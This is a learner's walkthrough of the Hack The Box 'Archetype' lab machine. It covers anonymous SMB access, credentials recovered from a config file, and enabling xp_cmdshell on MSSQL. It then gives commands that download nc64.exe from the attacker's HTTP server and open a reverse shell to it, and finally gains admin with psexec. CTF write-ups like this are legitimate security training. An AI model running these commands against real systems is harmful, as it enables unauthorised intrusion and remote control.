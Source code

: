 [[HTB-LABS]] [[Week4]]

# **Archetype**
this what i learn:
1. you can enter `smb` server by `smbclient` , and you can use those flages: `-N` mean **no password** . and can use `-L` to **List service or directory**
2. after we do this , there's some dir show and one of those is `backups` and to enter it
   we can use this command `smbclient -N \\\\{IP}\\backups` by this we will get shell and can use `dir` command to list what in there , then use `get` to download
3. when use `dir` you will find find file its name is `prod.dtsConfig`  and use get to download this file , then if you cat this file you will see code , in this code you will see username `ARCHETYPE\sql_svc` password `M3g4c0rp123` . this is the code 
```
   <DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>

```
4. we will use Impacket ```
```
Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.
```

5. we will use this script `mssqlclient.py` with this flaags `-windows-auth` :this flag is specified to use Windows Authentication .
   `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth` by then the password and by that you'r connect to sql server and type `help` for help 
   Here's a great article that can guide us further to our exploration journey with MSSQL Server:
   https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet

6. and from this cheat-sheet i will use this `SELECT is_srvrolemember('sysadmin');` continue using the cheat-sheet to see , from the command above the result is 1 and that mean it `true` which mean i'm admin or `sysadmin` .
7. after you know you'r admin use this script to enable shell
 ```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Enabling the sp_configure as stated in the above error message
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
8.  now we will use this file [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) , but first we need to run Power-Shell because it better than normal command prompt , to do this we will use this command `xp_cmdshell "powershell -c command"`  replace `commnad` with any command you want to perform , i use `pwd` to know where we are , and this is the output `C:\Windows\system32` but we cannot write here , so after some enumeration i know that download will be great 
9. now we need to upload this  [ne64.exe](https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------) file , and for that we will use this 
   command `sudo python3 -m http.server 80` in our terminal , now in the server terminal do this command  `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.16.58:80/nc64.exe -outfile nc64.exe"` 
   by that we download this file to the server  and to make this file work we will use this command 
   `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.16.58 443"` by this we make the file work and give it our ip and the port 
   and you should run this on your terminal `nc -lnvp 443` 
10. boom!!! we get reverse shell to the main server, now we went to Desktop to find the user.txt flag , then go to power-shell history 
    `cd C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\`
    there we will find this file `ConsoleHost_history.txt` and that have the history of this powershell then perform this command `type ConsoleHost_history.txt` and you will get the user of the admin and the password 

11. after that you can use `psexec.py` from impacket to get in as admin and we use this `ali@Ali:~/impacket/impacket/examples$ sudo python3 psexec.py administrator@10.129.95.187` from that now we'r admin then just go to the admin's Desktop and you will find the root.txt, and done
12. we try to use winPEAS but idont know anything about it so we let it for letter ctf


